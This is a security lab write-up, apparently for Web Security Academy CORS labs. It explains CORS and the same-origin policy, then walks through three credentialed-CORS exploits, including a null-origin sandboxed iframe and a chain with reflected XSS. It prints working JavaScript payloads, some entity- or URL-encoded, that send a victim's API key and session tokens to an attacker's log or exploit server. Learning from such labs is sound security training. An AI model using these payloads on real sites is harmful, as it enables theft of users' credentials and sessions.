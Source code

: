 - [What is CORS?](#what-is-cors)
- [What is SOP?](#what-is-sop)
- [Difference between CORS and SOP](#difference-between-cors-and-sop)
- [CORS vulnerability with basic origin reflection](#cors-vulnerability-with-basic-origin-reflection)
- [CORS vulnerability with trusted null origin](#cors-vulnerability-with-trusted-null-origin)
- [CORS vulnerability with trusted insecure protocols](#cors-vulnerability-with-trusted-insecure-protocols)

---

# What is CORS?

CORS or **Cross-Origin Resource Sharing** is a security mechanism implemented by web browsers to control how web page can request resources from different domains that the one serving the page.

# What is SOP?

SOP or **Same-Origin Policy** is a security mechanism implemented by browsers to prevent a script on one origin from accessing data on another origin.

If the script is from `https://example.com` the SOP will block the request:

```js
fetch('https://evil.com/data') 
```

# Difference between CORS and SOP


- SOP: **By default, browsers block** access to resources from other origins for security reasons.
- CORS: Is a **guest list** that the owner (server) provides to the (browser), saying who can come in.

---

# CORS vulnerability with basic origin reflection

Okeeey okey okeey, let's goo.

Open the lab and set the Burpsuite proxy in foxyproxy, then use the credentials given to login and see the **business logic**.

In accountDetails you see something like this:

```http
HTTP/2 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 162

{
  "username": "wiener",
  "email": "test@test.com",
  "apikey": "svhWanCJZsLVjIm5quc95GdzhScHmIzW",
  "sessions": [
    "QyZ8jdQn1tTmWlqkMEOEvB3QAlqCHbon"
  ]
}
```

The session is your actually session and it is in an array, we can think that "sessions" can save more than one sessions values.

If you try to close the session and open again you see that only one session value is saved in the response, but **if you delete the value of the cookie in storage tool and log in again** in the response of /accountDetails you will see two session. If you also look at the API key, you will see that it is still the same.

You can do a CSRF token attack because the endpoint `/accountdetails` it's not linked to any csrf_token but we're not going to do this.

In place of that we are going to take advange of `Access-Control-Allow-Credential: true` used in side server.

This headers allow us to add the **Origin** header and will be accepted

In the request:

```http
Origin: test.com
```

In the response:

```http
Access-Control-Allow-Origin: test.com
```

```html
<h1>Hello</h1>
<script>
	const request = new XMLHttpRequest()
	request.open("get", "https://0a6200b20417331e806d038f001e0054.web-security-academy.net/accountDetails", true)
	
	request.onload = () => {
		window.location.href = "/sergiky?key=" +  request.responseText
	}

	request.withCredentials = true

	request.send()
</script>
```

If you send this to the victim and see the logs of the attacker server you see that obtain the response in key parameter. In the response you have username, mail, apikey, sessions...

# CORS vulnerability with trusted null origin

The same thing, you see that have the header `Access-Control-Allow-Credential: true`, if you try to indicate the origin this doesn't reflected in the response, but if you try to add **Origin: null** it's reflected. This is a misconfiguration of the developers that we are going to take adavantage.

First of all recreate the same piece of code seen above.

```html
<h1>Hello</h1>
<script>
	const request = new XMLHttpRequest()
	request.open("get", "https://0a65003303b009ce82f9151e008700e9.web-security-academy.net/accountDetails", true)
	
	request.onload = () => {
		window.location.href = "/sergiky?key=" +  request.responseText
	}

	request.withCredentials = true

	request.send()
</script>
```

But we can't use it because we are not allowed in the CORS, in this case we have to create a `<iframe>` tag:

```html
<iframe sandbox="allow-scripts allow-top-navigation" srcdoc="&#x3c;&#x68;&#x31;&#x3e;&#x48;&#x65;&#x6c;&#x6c;&#x6f;&#x3c;&#x2f;&#x68;&#x31;&#x3e;&#x0a;&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#x0a;&#x09;&#x63;&#x6f;&#x6e;&#x73;&#x74;&#x20;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x20;&#x3d;&#x20;&#x6e;&#x65;&#x77;&#x20;&#x58;&#x4d;&#x4c;&#x48;&#x74;&#x74;&#x70;&#x52;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x28;&#x29;&#x0a;&#x09;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x2e;&#x6f;&#x70;&#x65;&#x6e;&#x28;&#x22;&#x67;&#x65;&#x74;&#x22;&#x2c;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x30;&#x61;&#x36;&#x35;&#x30;&#x30;&#x33;&#x33;&#x30;&#x33;&#x62;&#x30;&#x30;&#x39;&#x63;&#x65;&#x38;&#x32;&#x66;&#x39;&#x31;&#x35;&#x31;&#x65;&#x30;&#x30;&#x38;&#x37;&#x30;&#x30;&#x65;&#x39;&#x2e;&#x77;&#x65;&#x62;&#x2d;&#x73;&#x65;&#x63;&#x75;&#x72;&#x69;&#x74;&#x79;&#x2d;&#x61;&#x63;&#x61;&#x64;&#x65;&#x6d;&#x79;&#x2e;&#x6e;&#x65;&#x74;&#x2f;&#x61;&#x63;&#x63;&#x6f;&#x75;&#x6e;&#x74;&#x44;&#x65;&#x74;&#x61;&#x69;&#x6c;&#x73;&#x22;&#x2c;&#x20;&#x74;&#x72;&#x75;&#x65;&#x29;&#x0a;&#x09;&#x0a;&#x09;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x2e;&#x6f;&#x6e;&#x6c;&#x6f;&#x61;&#x64;&#x20;&#x3d;&#x20;&#x28;&#x29;&#x20;&#x3d;&#x3e;&#x20;&#x7b;&#x0a;&#x09;&#x09;&#x77;&#x69;&#x6e;&#x64;&#x6f;&#x77;&#x2e;&#x6c;&#x6f;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x2e;&#x68;&#x72;&#x65;&#x66;&#x20;&#x3d;&#x20;&#x22;&#x2f;&#x73;&#x65;&#x72;&#x67;&#x69;&#x6b;&#x79;&#x3f;&#x6b;&#x65;&#x79;&#x3d;&#x22;&#x20;&#x2b;&#x20;&#x20;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x2e;&#x72;&#x65;&#x73;&#x70;&#x6f;&#x6e;&#x73;&#x65;&#x54;&#x65;&#x78;&#x74;&#x0a;&#x09;&#x7d;&#x0a;&#x0a;&#x09;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x2e;&#x77;&#x69;&#x74;&#x68;&#x43;&#x72;&#x65;&#x64;&#x65;&#x6e;&#x74;&#x69;&#x61;&#x6c;&#x73;&#x20;&#x3d;&#x20;&#x74;&#x72;&#x75;&#x65;&#x0a;&#x0a;&#x09;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x2e;&#x73;&#x65;&#x6e;&#x64;&#x28;&#x29;&#x0a;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;">
```

What is a sandbox in iframe?
This enables an extra set of restrictions for the content in the iframe, all is prohibited except:

- `allow-scripts`: Allow to execute javascript code.
- `allow-top-navigation`: This is necessary to use window.location.href.

We build the sandbox without allow-same-origin and automatically established the origin to null.

# CORS vulnerability with trusted insecure protocols

In this lab we are going to chain two vulnerabilites, RXSS and CORS abuse.

If we take a look at the page, when we click in a product, at the bottom we can check the stock of the product, if you inspect the http request and send to intruder, you will see this:

`/?productId=2&storeId=1`

And with this parameters? what happens if we try to do a XSS, first of all try a HTML injection.

`/?productId=<h1>test</h1>&storeId=<h1>hacking</h1>`

And the response return:

```http
<h4>ERROR</h4>Invalid product ID: <h1>test</h1>
```

We see that productId is reflected and interpreted in render mode.

The next step is to login into the account and inspect the request.

You see in the response the header:

You can try to **do this steps** and see if it is reflected in the header `Access-Control-Allow-Origin`:

1. `Origin: test.com`
2. `Origin: http://test.com`
3. `Origin: null`
4. `Origin: subdomain.victim.com`
5. `Origin: http://subdomain.victim.com`
6. `Origin: http://invented-subdomain.victim.com`

We have to build the script.

First of all we build the same script that we see before:

```html
<script>
	const request = new XMLHttpRequest()
	
	request.open("get", "https://0a8f00fd03219b828b790d0d00ff0023.web-security-academy.net/accountDetails", true)
	
	request.onload = () => {
		window.location = "https://exploit-0a3d003803329bbf8bdb0cc201720075.exploit-server.net/exploit?key=" + request.responseText
	}
	
	request.withCredentials = true
	request.send()

</script>
```

Well, the problem now is that we can't abuse CORS because we have to be in some subdomain, we can solve this using the XSS as seen above in stock.0a8f00fd03219b828b790d0d00ff0023.web-security-academy.net.

We have to url-encode the previous script and set in productId parameter:

```html
<h1>Realistic webpage</h1>

<script>
	window.location = "http://stock.0a8f00fd03219b828b790d0d00ff0023.web-security-academy.net/?productId=%3c%73%63%72%69%70%74%3e%0a%09%63%6f%6e%73%74%20%72%65%71%75%65%73%74%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%0a%09%0a%09%72%65%71%75%65%73%74%2e%6f%70%65%6e%28%22%67%65%74%22%2c%20%22%68%74%74%70%73%3a%2f%2f%30%61%38%66%30%30%66%64%30%33%32%31%39%62%38%32%38%62%37%39%30%64%30%64%30%30%66%66%30%30%32%33%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%22%2c%20%74%72%75%65%29%0a%09%0a%09%72%65%71%75%65%73%74%2e%6f%6e%6c%6f%61%64%20%3d%20%28%29%20%3d%3e%20%7b%0a%09%09%77%69%6e%64%6f%77%2e%6c%6f%63%61%74%69%6f%6e%20%3d%20%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%33%64%30%30%33%38%30%33%33%32%39%62%62%66%38%62%64%62%30%63%63%32%30%31%37%32%30%30%37%35%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6b%65%79%3d%22%20%2b%20%72%65%71%75%65%73%74%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%0a%09%7d%0a%09%0a%09%72%65%71%75%65%73%74%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%0a%09%72%65%71%75%65%73%74%2e%73%65%6e%64%28%29%0a%0a%3c%2f%73%63%72%69%70%74%3e&storeId=1"
</script>
```

Send to the victim and see the log.

